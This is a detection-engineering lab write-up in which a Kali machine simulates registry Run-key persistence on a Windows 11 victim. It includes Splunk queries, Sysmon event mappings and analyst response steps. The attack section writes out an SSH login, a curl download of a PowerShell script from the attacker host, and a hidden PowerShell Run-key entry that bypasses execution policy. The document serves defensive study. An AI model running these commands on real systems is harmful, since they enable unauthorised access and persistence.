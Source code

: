 

# Detection Usecase 3 : Persistence via Registry keys


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a suspicious ps1 file,  
then runs a command to edit the registry and hide the malware in the run folder so that is get run after every time the System starts.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/fileless.ps1 -o fileless.ps1
```
2) Then executed the following command to hide the ps1 in run folder of the System.  
```
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"  
-Name "Updater" -Value "powershell -nop -w hidden -ExecutionPolicy Bypass  
-File C:\Users\sshuser\fileless.ps1"
``` 
3) Now every time the user logged in the System the attacker will get the shell access of the System, hence gain persistence on the System.  
![attack](<logs/Screenshot_2025-06-05_07_27_47 copy.png>)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, regedit, msfvenom, metasploit
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Sysmon      | 13        | Registry Value Modification      |


 ******************************
 ******************************

# Detection Query / Logic:
```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search - Registry Modification
index=* EventCode=13
```


 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![login1](<logs/Screenshot 2025-06-05 162503.png>)  
![login2](<logs/Screenshot 2025-06-05 162520.png>)  
![get system32](<logs/Screenshot 2025-06-05 162552.png>)


2) Then attempted to download a ps1 file.  

![download](<logs/Screenshot 2025-06-05 162748.png>)  
![created](<logs/Screenshot 2025-06-05 162802.png>)

3) After that runs powershell and execute registry modification.  

![pswh1](<logs/Screenshot 2025-06-05 162838.png>)  
![pwsh2](<logs/Screenshot 2025-06-05 162957.png>)

4) The modification can also be seen using Autoruns tool.  

![autoruns](<logs/Screenshot 2025-06-05 170740.png>)


 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Registry Modification, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Event ID : 4625(unsuccessful login), 11(File Creation), 1(Process Creation/Command Execution)), try to correlate it with unexpected login or unusual user behavior.  
    -> Contain the Threat - Isolate the system and stop if any malicious processes is running and disable the user account involved in the attack.  
    -> used tool like Autoruns or manually delete the unusual Registry Modification.  
    -> Delete any downloaded files, check for scheduled tasks or any lateral movement activity.  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
